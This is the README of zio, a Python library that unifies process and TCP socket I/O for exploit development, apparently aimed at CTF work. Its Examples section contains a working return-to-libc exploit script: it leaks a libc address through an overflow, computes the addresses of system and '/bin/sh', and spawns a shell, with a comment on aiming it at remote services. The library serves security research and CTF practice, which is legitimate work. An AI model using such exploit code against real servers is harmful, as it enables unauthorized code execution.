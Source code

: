 
# zio

[![Build Status](https://travis-ci.org/zTrix/zio.png)](https://travis-ci.org/zTrix/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

# io = zio('./buggy-server')            # used for local pwning development
# io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we get a shell!
io.interact()
```

## License

[zio] use [SATA License](../blob/master/LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](../blob/master/LICENSE.txt) carefully.

## Dependency

 - Linux or OSX
 - Python 2.6, 2.7
 - termcolor (optional, for color support)
    - $ pip install termcolor

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

## Document

To be added... Please wait...

### about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) I borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/


[zio]:https://github.com/zTrix/zio
